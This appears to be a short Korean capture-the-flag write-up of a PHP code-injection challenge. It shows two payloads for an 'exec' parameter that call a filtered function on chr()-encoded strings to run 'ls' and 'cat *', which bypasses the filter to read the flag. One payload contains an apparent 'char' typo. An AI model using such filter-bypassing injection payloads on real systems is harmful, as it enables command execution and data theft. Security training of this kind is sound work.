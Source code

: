 # 개요
웹 기반 필터링을 우회해서 특정 함수 등의 코드나 외부 프로그램 실행
exec 변수로 php code injection 공격 수행

## exploit
1. $filter 배열에 있는걸 그대로 사용해도 됨
> ?exec=$filter[0](char(108).chr(115)); = system(ls)
>> php 에서는 문자열 합치는걸 . 를 사용함
2. 이 때 나오는 flag 파일을 그대로 실행해도 되고 아니면 cat으로 실행
> ?exec=$filter[0](chr(99).chr(97).chr(116).chr(32).chr(42));